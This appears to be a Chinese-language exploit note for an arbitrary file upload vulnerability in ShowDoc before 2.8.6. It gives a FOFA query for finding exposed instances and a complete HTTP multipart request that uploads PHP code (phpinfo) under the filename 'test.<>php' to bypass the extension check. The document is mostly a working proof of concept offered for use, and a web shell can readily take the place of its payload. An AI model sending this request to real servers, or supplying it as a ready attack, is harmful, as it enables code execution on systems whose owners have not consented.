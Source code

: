 # 漏洞描述

ShowDoc一个非常适合IT团队的 API文档、技术文档工具,存在任意文件上传漏洞

# 漏洞影响

showdoc < 2.8.6

# 漏洞复现
# FOFA
```
app="ShowDoc"
```
# payload
```

POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Content-Length: 239
Content-Type: multipart/form-data; boundary=--------------------------835846770881083140190633
Accept-Encoding: gzip

----------------------------835846770881083140190633
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------835846770881083140190633--
```


  